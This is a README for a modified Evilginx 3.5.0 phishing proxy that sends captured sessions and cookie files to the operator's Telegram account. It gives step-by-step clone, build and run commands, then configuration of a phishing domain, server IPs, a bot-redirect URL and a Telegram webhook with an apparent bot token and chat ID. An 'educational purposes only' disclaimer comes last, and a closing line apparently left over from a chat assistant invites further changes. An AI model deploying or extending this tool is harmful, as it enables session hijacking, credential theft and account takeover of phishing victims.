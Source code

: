 ```markdown
# Evilginx 3.5.0 - Modified By Itwizardo

This is a modified version of Evilginx 3.5.0 that includes functionality to send sessions to your Telegram account, including the cookies file, it also has the new Gophish intergration and bug fixes.
```
## Ubuntu Installation

To install Evilginx 3.5.0 - Modified By Itwizardo on Ubuntu, follow these steps:

1. Clone the repository:

```bash
git clone https://github.com/itwizardo/evilginx2telegram.git
```

2. Navigate to the cloned directory:

```bash
cd evilginx2telegram
```

3. Install dependencies:

```bash
go get
```

4. Build the project:

```bash
go build
```

5. Make the executable:

```bash
make
```

6. Navigate to the build directory:

```bash
cd build
```

7. Set permissions for the Evilginx executable:

```bash
chmod +rwx evilginx
```

8. Run Evilginx:

```bash
./evilginx -p ../phishlets/
```

## Configuration Setup

Before using Evilginx, you need to set up your configuration. Follow these steps:

1. Set the domain:

```
config domain something.com
```

2. Set the external server IP:

```
config ipv4 external serverip
```

3. Set the server IP to bind to:

```
config ipv4 bind serverip
```

4. Set the unauthenticated URL:

```
config unauth_url https://bots.here.redirected.com/
```

5. Set autocert to on or off:

```
config autocert on/off
```

6. Set up the Telegram webhook:

```
config webhook_telegram 7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58O/15604540690
```

Replace `7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58O` with your Telegram token.

Replace `15604540690` with your Chat id.

## Telegram Guide

Here's a guide on how to set up Telegram for Evilginx:

### How to Get Chat ID

1. Go to Telegram and search for `@raw_data_bot`.
2. Start a conversation with the bot.
3. The bot should provide you with your chat ID.

### How to Get Token

1. Go to Telegram and search for `@BotFather`.
2. Start a conversation with the bot by sending `/start`.
3. Follow the instructions to create a new bot and get your Telegram token.

**For Educational Purposes Only:**

Evilginx 3.5.0 - Modified By Itwizardo is intended for educational purposes only. Any use of this tool for malicious or illegal activities is strictly prohibited. The developers and contributors are not responsible for any misuse of this tool.

```

Feel free to modify this README as needed for your repository! Let me know if you need further assistance.
```
